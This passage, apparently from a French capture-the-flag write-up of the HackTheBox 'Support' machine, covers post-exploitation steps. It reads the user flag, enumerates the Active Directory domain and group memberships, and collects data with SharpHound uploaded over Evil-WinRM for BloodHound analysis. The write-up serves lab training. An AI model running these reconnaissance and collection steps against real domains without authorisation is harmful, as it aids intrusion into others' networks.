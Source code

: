 <div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-terminal mr-2 text-green-500"></i>
        Shell obtenu en tant que support@support.htb \!
    </p>
</div>

Flag utilisateur :

```powershell
type C:\Users\Support\Desktop\user.txt
```


## 🧭 Phase 7 — Énumération du domaine

Lister le domaine :

```powershell
Get-ADDomain
```

Groupes de l'utilisateur :

```powershell
whoami /groups
```

Résultat notable :

```
Shared Support Accounts (groupe non standard)
```

<div class="bg-amber-100 dark:bg-amber-900/20 border-l-4 border-amber-500 p-4 my-4 rounded-r-lg">
    <p class="text-amber-800 dark:text-amber-200">
        <i class="fas fa-search mr-2 text-amber-500"></i>
        <strong>Hypothèse :</strong> Ce groupe personnalisé détient potentiellement des privilèges élevés sur le domaine.
    </p>
</div>


## 🕸️ Phase 8 — Analyse BloodHound

### Démarrage de Neo4j et BloodHound

```bash
sudo neo4j start
./BloodHound-linux-x64/BloodHound
```

### Collecte de données

Dans Evil-WinRM :

```powershell
cd C:\Windows\Temp
upload SharpHound.exe
.\SharpHound.exe
download *.zip
```

